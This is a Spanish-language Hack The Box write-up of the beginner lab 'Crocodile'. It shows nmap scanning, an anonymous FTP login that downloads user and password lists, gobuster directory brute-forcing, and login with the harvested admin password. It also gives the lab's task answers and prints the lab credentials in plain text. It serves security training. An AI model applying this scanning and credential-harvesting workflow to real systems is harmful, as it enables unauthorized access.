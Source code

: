 ```yaml
---
title: Cocodrile
date: 2025-04-5 00:00:00 +0200
categories: [writeup, hackthebox]
tags: [hackthebox, cocodrile, gobuster, fuzzing]     
image:
    path: https://www.hackthebox.com/images/logo-htb.svg
    alt: Hack The Box
---
```

## Cocodrile
Esta vez el reto de principiantes comienza con algo relacionado con el puerto de FTP 21 el puerto 80 y algo de fuzzing con gobuster. 

``` shell
└─$ nmap -p- 10.129.14.219  -vv    
canning 10.129.14.219 [65535 ports]
Discovered open port 21/tcp on 10.129.14.219
Discovered open port 80/tcp on 10.129.14.219
```
 Task 1

What Nmap scanning switch employs the use of default scripts during a scan?
> -sC

Task 2

What service version is found to be running on port 21?
``` shell
 nmap -p 21 10.129.14.219  -sC -vv
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-06 16:16 EDT
NSE: Loaded 126 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 16:16
Completed NSE at 16:16, 0.00s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 16:16
Completed NSE at 16:16, 0.00s elapsed
Initiating Ping Scan at 16:16
Scanning 10.129.14.219 [4 ports]
Completed Ping Scan at 16:16, 0.07s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 16:16
Completed Parallel DNS resolution of 1 host. at 16:16, 13.00s elapsed
Initiating SYN Stealth Scan at 16:16
Scanning 10.129.14.219 [1 port]
Discovered open port 21/tcp on 10.129.14.219
Completed SYN Stealth Scan at 16:16, 0.07s elapsed (1 total ports)
NSE: Script scanning 10.129.14.219.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 16:16
NSE: [ftp-bounce 10.129.14.219:21] PORT response: 500 Illegal PORT command.
Completed NSE at 16:16, 2.70s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 16:16
Completed NSE at 16:16, 0.00s elapsed
Nmap scan report for 10.129.14.219
Host is up, received echo-reply ttl 63 (0.048s latency).
Scanned at 2025-04-06 16:16:50 EDT for 3s

PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 63
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.15.134
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
|_-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 16:16
Completed NSE at 16:16, 0.00s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 16:16
Completed NSE at 16:16, 0.01s elapsed
Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 16.69 seconds
           Raw packets sent: 5 (196B) | Rcvd: 2 (72B)
```
> vsFTPd 3.0.3

Task 3

What FTP code is returned to us for the "Anonymous FTP login allowed" message?
>230

Task 4

After connecting to the FTP server using the ftp client, what username do we provide when prompted to log in anonymously?
>anonymous

Task 5

After connecting to the FTP server anonymously, what command can we use to download the files we find on the FTP server?
>get

Task 6

What is one of the higher-privilege sounding usernames in 'allowed.userlist' that we download from the FTP server?

``` shell
┌──(kali㉿kali25)-[~]
└─$ ftp 10.129.14.219    
Connected to 10.129.14.219.
220 (vsFTPd 3.0.3)
Name (10.129.14.219:kali): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||40057|)
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
226 Directory send OK.
ftp> get allowed.userlist
local: allowed.userlist remote: allowed.userlist
229 Entering Extended Passive Mode (|||49909|)
150 Opening BINARY mode data connection for allowed.userlist (33 bytes).
100% |********************************|    33        6.97 KiB/s    00:00 ETA
226 Transfer complete.
33 bytes received in 00:00 (0.31 KiB/s)
ftp> get 
allowed.userlist        allowed.userlist.passwd
ftp> get allowed.userlist.passwd
local: allowed.userlist.passwd remote: allowed.userlist.passwd
229 Entering Extended Passive Mode (|||47280|)
150 Opening BINARY mode data connection for allowed.userlist.passwd (62 bytes).
100% |********************************|    62       88.77 KiB/s    00:00 ETA
226 Transfer complete.
62 bytes received in 00:00 (0.15 KiB/s)
ftp> 
```
> admin

Task 7

What version of Apache HTTP Server is running on the target host?

``` shell
└─$ nmap -p 80 10.129.14.219  -sV -vv 
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.41 ((Ubuntu))
```
> Apache httpd 2.4.41
Task 8

What switch can we use with Gobuster to specify we are looking for specific filetypes?
> -x

Task 9

Which PHP file can we identify with directory brute force that will provide the opportunity to authenticate to the web service?

Nos valemos de gobuster y un diccionario de wfuzz para encontrar posibles páginas php
```shell
┌──(kali㉿kali25)-[/usr/share/wordlists]
└─$ gobuster dir -u http://10.129.14.219/ -w /usr/share/wordlists/wfuzz/general/admin-panels.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.14.219/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/wfuzz/general/admin-panels.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/login.php            (Status: 200) [Size: 1577]
Progress: 134 / 135 (99.26%)
===============================================================
Finished
===============================================================

```
>login.php

Submit Flag

Ahora que sabamos donde está la página de login introducimos la password que capturamos durante la parte de FTP
``` shell
┌──(kali㉿kali25)-[~]
└─$ cat allowed.userlist*      
aron
pwnmeow
egotisticalsw
admin
root
Supersecretpassword1
@BaASD&9032123sADS
rKXM59ESxesUFHAd
```
Entramos en  http://10.129.14.219/login.php
introducimos admin:rKXM59ESxesUFHAd

Submit root flag [achivement](https://www.hackthebox.com/achievement/machine/2336390/404)